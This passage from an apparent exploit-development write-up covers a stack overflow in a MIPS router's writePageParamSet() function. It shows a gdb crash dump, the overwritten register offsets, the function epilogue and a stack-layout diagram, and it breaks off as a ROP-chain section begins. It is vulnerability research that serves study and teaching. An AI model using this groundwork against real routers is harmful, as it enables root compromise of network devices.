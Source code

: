 ```
#0  0x61616561 in ?? ()
(gdb) i r
          zero       at       v0       v1       a0       a1       a2       a3
 R0   00000000 00000001 00000000 00000302 7d7fe878 00560000 00000002 00000000 
            t0       t1       t2       t3       t4       t5       t6       t7
 R8   00000000 00000000 00000000 86ffa000 00000000 7e1ffc14 61636661 00000000 
            s0       s1       s2       s3       s4       s5       s6       s7
 R16  61616261 61616361 61616461 00000005 00000000 00000007 00000000 0064c804 
            t8       t9       k0       k1       gp       sp       s8       ra
 R24  00000000 2aad2980 00000000 00000000 00594d80 7d7fed50 7d7fedf8 61616561 
            sr       lo       hi      bad    cause       pc
      0000a413 2deb3800 0000e72b 61616560 10800008 61616561 
           fsr      fir
      00000000 00000000
```

that corresponds to the following offsets for the registers we control

 - ``s0`` -> 3
 - ``s1`` -> 7
 - ``s2`` -> 11
 - ``pc`` -> 15
 - ``t6`` -> too far away

and indeed analyzing the assembly of the epilogue for ``writePageParamSet()``
all corresponds

```
lw                 ra,local_4(sp)
lw                 s2,local_8(sp)
lw                 s1,local_c(sp)
lw                 s0,local_10(sp)
jr                 ra
_addiu             sp,sp,0x228
```

In order to have a mental model and build an exploit, I start making
a diagram of the memory

```
 ---- increasing addresses ---->

[   padding   ][  s0  ][  s1  ][  s2  ][  ra  ][   ?????   ]
                                                |
  sp points here after the oveflow  ------------'
```

## Ropchain

This is a router running on a kernel 2.6.31 without any
protection: the stack is **executable**, the address layout is
**not randomized** and obviously is **running as root** so
this is plain exercise from the 90s.

